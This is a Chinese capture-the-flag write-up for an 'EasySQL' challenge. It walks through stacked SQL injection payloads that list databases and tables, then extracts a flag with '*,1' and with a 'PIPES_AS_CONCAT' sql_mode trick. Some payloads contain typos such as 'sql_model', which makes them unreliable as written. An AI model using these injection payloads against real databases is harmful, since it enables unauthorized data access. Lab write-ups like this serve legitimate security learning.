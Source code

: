 ## EasySQL

此题非常规注入

输入1

回显Array ( [0] => 1 )

输入1‘没有回显

输入1“

回显Nonono

堆叠注入

输入1；show database；

回显：

Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test )

输入1；show tables；

回显：**Array ( [0] => 1 ) Array ( [0] => Flag )**

看大佬博客发现sql语句为：

**select $post['query'] ==||== flag from flag**

非预期解

**输入*，1**

此时1与flag通过||运算变成了1

`这里输入任何数字都能达到目的`

预期解

**1；set sql_model=PIPES_AS_CONCAT;select 1**

==这里PIPES_AS_CONCAT将||视为字符串的连接操作而非'或'运算符==